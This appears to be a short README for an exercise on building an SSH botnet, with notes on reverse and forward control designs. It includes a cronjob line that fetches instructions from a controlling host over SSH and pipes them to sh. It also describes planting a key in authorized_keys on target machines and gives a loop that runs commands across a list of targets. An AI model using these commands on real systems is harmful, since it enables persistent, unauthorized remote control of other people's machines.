 # Botnets
- How would you build ssh botnet?


## Initial thoughts:
- SSH could be used in reverse and forward direction. Reverse could make sense depending on firewall and would need special hardening to prevent hack backs.
- What is the intension of the ssh net? To execute commands, to obfuscate traffic?


## Reverse: 

### Prerequisits: 
- Limit to rbash shell and no access to any other command than "cat instruction.sh" via alias.
- Place/generate private rsa key on target machine if no key exist in the profile.

Cronjob or alias with he following bash script:
```bash
ssh -i id_rsa user@hostname "cat instructions.sh" | sh
```

### Forward:
Add public ssh key to target machine ~/.ssh/authorized_keys.

Easy solution -  Public Key based szenario:
```bash
while read p; do
  ssh -i id_rsa $p "command"
done <target_machines.txt
```

This solution in python can be found in the "solution.py" file.

Install requirements:
```bash
pip3 install -r requirements.txt
```